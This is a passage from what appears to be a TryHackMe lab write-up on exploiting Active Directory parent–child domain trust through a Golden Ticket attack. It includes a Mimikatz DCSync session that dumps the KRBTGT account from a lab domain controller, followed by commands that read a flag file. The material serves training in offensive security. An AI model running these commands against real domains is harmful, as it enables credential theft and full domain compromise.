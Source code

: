 It is common to have a root or parent domain in a forest. In our case, this is TRYHACKME.LOC. For each regional office, sub or child domains are created, such as ZA.TRYHACKME.LOC or UK.TRYHACKME.LOC. This forest configuration will allow the sharing of resources between the ZA and the UK office. For example, if some user in the UK office requires access to THMSERVER1, we can grant access for the user in the ZA domain. This permission delegation works since there is bidirectional trust between ZA and the root domain and the UK and the root domain, essentially creating a transitive trust between ZA and UK.

As mentioned above, the trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.

### KRBTGT and Golden Tickets

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a Golden Ticket attack. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash

The first three are usually easy to recover. The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. Luckily for us, we have just compromised the Tier 0 admins group with a forged certificate, so we are in a position to recover the KRBTGT password hash.

We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:

```shell-session
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt